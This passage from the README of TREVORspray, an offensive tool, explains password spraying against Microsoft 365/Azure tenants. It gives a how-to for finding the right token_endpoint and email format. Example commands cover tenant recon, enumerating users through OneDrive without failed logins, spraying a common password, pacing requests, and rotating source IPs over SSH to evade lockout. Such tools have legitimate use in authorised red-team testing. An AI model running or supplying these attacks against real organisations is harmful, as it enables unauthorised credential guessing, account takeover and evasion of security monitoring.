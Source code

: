     - other tentant domains
    - sharepoint URL
    - authentication urls, autodiscover, federation config, etc.
  - User enumeration (use `--recon` and `--users`):
    - `OneDrive`
    - `Azure Seamless SSO`

## How To - O365
- First, get a list of emails for `corp.com` and perform a spray to see if the default configuration works. Usually it does.
- If TREVORspray says the emails in your list don't exist, don't give up. Get the `token_endpoint` with `--recon corp.com`. The `token_endpoint` is the URL you'll be spraying against (with the `--url` option).
- It may take some experimentation before you find the right combination of `token_endpoint` + email format.
    - For example, if you're attacking `corp.com`, it may not be as easy as spraying `corp.com`. You may find that Corp's parent company Evilcorp owns their Azure tenant, meaning that you need to spray against `evilcorp.com`'s `token_endpoint`. Also, you may find that `corp.com`'s internal domain `corp.local` is used instead of `corp.com`.
    - So in the end, instead of spraying `bob@corp.com` against `corp.com`'s `token_endpoint`, you're spraying `bob@corp.local` against `evilcorp.com`'s.

## Example: Perform recon against a domain (retrieves tenant info, autodiscover, mx records, etc.)
```bash
trevorspray --recon evilcorp.com
...
    "token_endpoint": "https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token"
...
```

## Example: Enumerate users via OneDrive (no failed logins)
```bash
trevorspray --recon evilcorp.com -u emails.txt --threads 10
```

![recon-user-enumeration](https://user-images.githubusercontent.com/20261699/151052308-d938bf6c-f335-4d3e-9c3c-1fd79a188e73.gif)

## Example: Spray against discovered "token_endpoint" URL
```bash
trevorspray -u emails.txt -p 'Welcome123' --url https://login.windows.net/b439d764-cafe-babe-ac05-2e37deadbeef/oauth2/token
```

## Example: Spray with 5-second delay between requests
```bash
trevorspray -u bob@evilcorp.com -p 'Welcome123' --delay 5
```

## Example: Spray and round-robin between 3 IPs (the current IP is also used, unless `-n` is specified)
```bash
trevorspray -u emails.txt -p 'Welcome123' --ssh root@1.2.3.4 root@4.3.2.1
```
